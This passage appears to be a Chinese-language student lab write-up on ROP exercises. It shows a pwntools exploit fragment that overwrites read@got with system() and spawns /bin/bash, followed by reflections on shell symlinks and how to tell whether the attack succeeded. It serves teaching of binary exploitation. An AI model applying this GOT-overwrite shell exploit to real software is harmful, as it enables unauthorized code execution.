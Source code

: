 ```python

# 根据上一步显示的read_got的位置-固定偏移offset，即system()地址（后面send）

payload += p32(read_plt)+p32(pppr)+p32(0x0)+p32(read_got)+p32(0x4)

# 这时read@got已经改成system()，再调用read()就会执行system()

# system()的参数是之前写在.bss段的"/bin/bash"

# 中间需要加4bytes的JUNK

payload += p32(read_plt)+b"JUNK"+p32(code.bss())

p.send(payload)
p.send(bin_bash)

system = u32(p.recv(4)) - offset
# print(hex(system))

p.sendline(p32(system))

p.interactive()
```

运行截图：

![image-20211117112706571](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032008777.png)



### 三、一点思考

在这次的两个实验rop3和rop4中都测试过，输入`/bin/bash`和`/bin/sh`在CentOS和ubuntu上都可以。源代码中有这样一段话：

```c
        // /bin/sh is usually symlinked to bash, which usually drops privs. Make
        // sure we don't drop privs if we exec bash, (ie if we call system()).
```

问了老师之后又查了一下：`/bin/sh `在大多数 GNU/Linux 系统上用于指向`/bin/bash`，比如说默认情况下现代 Debian 和 Ubuntu 系统，它们的符号链接都是从`/sh`指向`/bash`。

老师说也可以指向`/bin/date`，因为这样会有回显，如果用`/bin/bash`则没有回显，只有输入正确的命令后才可以看到是否攻击成功。

如果用pwn写py脚本的话，如果攻击失败，最后会直接GOT EOF，所以可以很方便地看出是否攻击成功。